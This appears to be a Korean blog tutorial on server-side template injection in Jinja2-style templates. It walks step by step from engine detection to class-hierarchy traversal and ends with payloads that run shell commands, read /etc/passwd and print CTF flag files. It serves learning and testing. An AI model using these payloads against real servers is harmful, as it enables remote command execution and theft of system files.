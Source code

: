 ```yaml
---
layout: post
title: "SSTI 취약점"
date: 2020-11-06
categories: WEB_HACKING
tags: [web,웹 취약점,ssti]
---
```



## SSTI(Server-Side Template Injection) 취약점이란?
: 웹 어플리케이션에서 동적인 내용을 HTML로 출력할때, 미리 정의한 Template에 동적인 값을 넣어 출력하는 템플릿을 사용하는 경우가 있다.

```
int a;
'''
<html>
<body>
    <h1> {{a}}
</body>
</html>
'''
```

여기서 만약에 Template source에 사용자 입력이 들어간다면 악의적인 입력을 통해 개발자가 의도하지않은 기능을 수행할 수 있게 된다 즉 사용자의 입력데이터가 Template에 직접사용될 위험이 있다는 말이다. 이를 SSTI 취약점이라고 칭한다.

Template의 종류는 다양한데, 보통 jinja2, mako 를 사용하는 것같다.

이 취약점을 테스트 할 때는 다음과 같은 단계로 테스트해 볼수 있다.


1 어떤 템플릿인지 확인하기
`{{7*7}}`
`{{7*'7'}}`
`${7*7}`

![ssti](./SSTI.png)

2 OS라이브러리에 있는 config 추가
`{{config.from_object('os')}}*`

3 현재 설정되어있는 config 확인
`{{config}}`
`{{config.items()}}`

4 root 클래스에 접근.
`{{''.__class__.__mro__}}`

5 상속받은 클래스 확인
`{{''.__class__.__mro__[1].__subclasses__()}}`

여기서 1은 4에서 나온 클래스 중 2번째 인덱스타입을 선택했기 때문에 1을 적은것. (보통 str이 0번, object가 1인데 1을 자주쓰는것같다..)

6 사용할 클래스 고르기
`{{''.__class__.__mro__[1].__subclasses__()[400:]}}`
몇번째인지 잘 확인한다.. 이거는 400번 클래스 부터 나온다는 의미의 명령어인데 이렇게 클래스를 골라주면 됨. 보통 Popen 클래스를 사용해서 flag 를 확인한다. 시스템 명령어도 가능한듯.



7 클래스 사용 (Payload)
`{{''.__class__.__mro__[1]__subclasses__()[408]('ls',shell=True,stdout=-1).communicate()}}`
`{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}`
`{{''.__class__.mro()[0].__subclasses__()[408]('cat ./flag',shell=True,stdout=-1).communicate()[0].strip()}}`
`{{url_for.globals.os.popen(“cat%20flag.txt”).read()}}`



[참고]
- SSTI 취약점 설명
https://watchout31337.tistory.com/m/177?category=904110
- payload 모음집 github:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
- Dremhack 서버사이드 강의